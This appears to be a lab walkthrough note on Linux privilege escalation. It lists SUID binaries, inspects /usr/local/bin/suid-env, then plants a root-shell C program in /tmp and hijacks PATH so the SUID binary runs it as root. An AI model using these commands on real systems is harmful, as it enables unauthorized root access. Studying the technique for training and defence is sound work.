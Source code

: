 **Detection**

[[Linux]] Target
- In command prompt type: 
```
find / -type f -perm -04000 -ls 2>/dev/null
```

- From the output, make note of all the SUID binaries.

- In command prompt type: 
```
strings /usr/local/bin/suid-env
```

- From the output, notice the functions used by the binary.

**Exploitation**
Target machine:

-  In command prompt type:

```
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
```

-  In command prompt type: 
```
gcc /tmp/service.c -o /tmp/service
```

- In command prompt type: 
```
export PATH=/tmp:$PATH
```

- In command prompt type: 
```
/usr/local/bin/suid-env
```

- In command prompt type: 
```
id
```
